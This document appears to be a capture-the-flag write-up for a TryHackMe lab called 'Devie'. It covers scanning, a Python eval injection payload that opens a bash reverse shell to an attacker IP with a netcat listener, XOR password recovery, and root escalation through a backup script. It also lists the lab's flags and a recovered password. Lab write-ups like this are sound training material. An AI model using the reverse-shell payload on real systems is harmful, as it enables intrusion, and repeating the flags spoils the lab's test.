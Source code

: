 # Devie

A developer has asked you to do a vulnerability check on their system.

<p align="center">
  <img src={require("./assets/devie/devie.png").default} width="128" />
</p>

## Task 1 - What are the flags?

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

THM{X0R_XoR_XOr_xOr}

> What is the root flag?

THM{J0k3r$\_Ar3_W1ld}

## Writeup

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<p align="center">
  <img src={require("./assets/devie/nmap.png").default} />
</p>

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<p align="center">
  <img src={require("./assets/devie/website.png").default} />
</p>

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<p align="center">
  <img src={require("./assets/devie/vuln.png").default} />
</p>

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<p align="center">
  <img src={require("./assets/devie/flag1.png").default} />
</p>

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<p align="center">
  <img src={require("./assets/devie/key.png").default} />
</p>

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<p align="center">
  <img src={require("./assets/devie/flag2.png").default} />
</p>

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```

The final flag is `THM{J0k3r$_Ar3_W1ld}`.
